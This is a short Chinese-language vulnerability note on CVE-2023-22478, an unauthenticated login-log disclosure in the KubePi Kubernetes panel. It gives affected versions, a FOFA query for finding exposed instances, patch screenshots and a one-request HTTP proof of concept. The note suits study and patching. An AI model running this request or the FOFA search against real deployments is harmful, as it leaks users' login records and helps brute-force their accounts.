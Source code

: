 # KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

## 漏洞描述

KubePi 是一个现代化的 K8s 面板。KubePi 允许管理员导入多个 Kubernetes 集群，并且通过权限控制，将不同 cluster、namespace 的权限分配给指定用户。它允许开发人员管理 Kubernetes 集群中运行的应用程序并对其进行故障排查，供开发人员更好地处理 Kubernetes 集群中的复杂性。

KubePi LoginLogsSearch 方法下的接口存在未授权访问漏洞，攻击者通过漏洞可以未授权获取用户的登录日志信息，进一步爆破用户。

## 漏洞影响

```
KubePi <= v1.6.4
```

## FOFA

```
"kubepi"
```

## 漏洞复现

登录页面

![image-20230504141145409](images/image-20230504141145409.png)

补丁中对路由加了身份验证

![image-20230504141203464](images/image-20230504141203464.png)

对应的接口为

![image-20230504141218134](images/image-20230504141218134.png)

验证POC

```
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```

![image-20230504141241265](images/image-20230504141241265.png)